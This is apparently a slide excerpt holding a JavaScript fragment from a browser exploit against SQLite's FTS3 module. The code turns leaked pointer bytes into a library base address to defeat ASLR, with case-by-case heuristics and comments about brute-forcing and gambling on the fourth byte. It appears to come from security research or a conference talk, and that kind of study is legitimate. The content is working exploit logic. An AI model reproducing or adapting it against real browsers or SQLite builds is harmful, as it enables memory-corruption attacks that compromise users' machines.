

if(fts3_azColumn_leaked_byte_count >= 3){
        console.log(`Truncate it on purpose. We're still gonna brute the 4th byte because we don't know whether the leaked 4th byte is case insensitive and hence, inaccurate`);
        fts3_azColumn_leaked_value = (fts3_azColumn_leaked_value / Math.pow(0x100, fts3_azColumn_leaked_byte_count - 3)) >>> 0;
        fts3_azColumn_leaked_byte_count = 3;
        console.log(`Case 0`);
        leak_base_address = fts3_azColumn_leaked_value * 0x1000000;
        leak_base_address -= 0x20000000;
        leak_base_address += B_0x1000_offset_3bytes;
    }
    else{
        if((fts3_azColumn_leaked_byte_count == 2) &&
                (fts3_zWriteExprlist_leaked_byte_count > 2)
               ){
            console.log(`Case 1`);
            leak_base_address = fts3_azColumn_leaked_value * 0x100000000;
            leak_base_address += 0x80 * 0x1000000;
            leak_base_address += B_0x1000_offset_3bytes;
        }
        else if((fts3_azColumn_leaked_byte_count == 2) &&
                (fts3_zWriteExprlist_leaked_byte_count == 2) &&
                (fts3_azColumn_leaked_value_second_byte == (fts3_zWriteExprlist_leaked_value_second_byte + 1))){
            console.log(`Case 2`);
            leak_base_address = fts3_azColumn_leaked_value * 0x100000000;
            leak_base_address += B_0x1000_offset_3bytes;
        }
        else if((fts3_azColumn_leaked_byte_count == 2) &&
                (fts3_zWriteExprlist_leaked_byte_count == 2) &&
                (fts3_azColumn_leaked_value_second_byte == fts3_zWriteExprlist_leaked_value_second_byte)
               ){
            console.log(`Case 3`);
            // Very wierd case. Only happened once...? Just gamble on the address here. Might not work.
            leak_base_address = fts3_azColumn_leaked_value * 0x100000000;
            leak_base_address += 0x80 * 0x1000000;
            leak_base_address += B_0x1000_offset_3bytes;
        }
        else{
            console.log(`Don't know how to handle this case. Stopping here...`);
            return;
        }
    }
# The 4thbyte Heuristics